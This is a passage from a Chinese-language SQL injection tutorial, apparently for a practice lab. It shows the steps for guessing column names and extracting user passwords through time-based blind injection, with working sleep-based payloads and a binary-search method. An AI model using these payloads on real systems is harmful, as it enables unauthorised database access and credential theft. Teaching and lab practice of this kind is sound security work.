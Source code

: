  ?id=1' and if(length((select column_name from information_schema.columns where table_name='users' limit 0,1))&lt;10,sleep(5),1)--+
转了5s说明if判断正确

 采用二分法以此类推得到唯一的值
通过这个方法判断出表长


> 
<h3>5.7、第七步：猜字段名</h3>
?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))&gt;10,sleep(5),1)--+
转了5s说明if判断正确


?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))&lt;100,sleep(5),1)--+
转了5s说明if判断正确


 采用二分法以此类推得到唯一的值
通过这个方法判断出整个字段名


> 
<h3>5.8、第八步：猜数据</h3>
?id=1' and if(ascii(substr((select password from security.users limit 0,1),1,1))&gt;10, sleep(5),0)--+
转了5s说明if判断正确



?id=1' and if(ascii(substr((select password from security.users limit 0,1),1,1))&lt;100, sleep(5),0)--+
转了5s说明if判断正确


采用二分法以此类推得到唯一的值
通过这个方法判断出整个数据

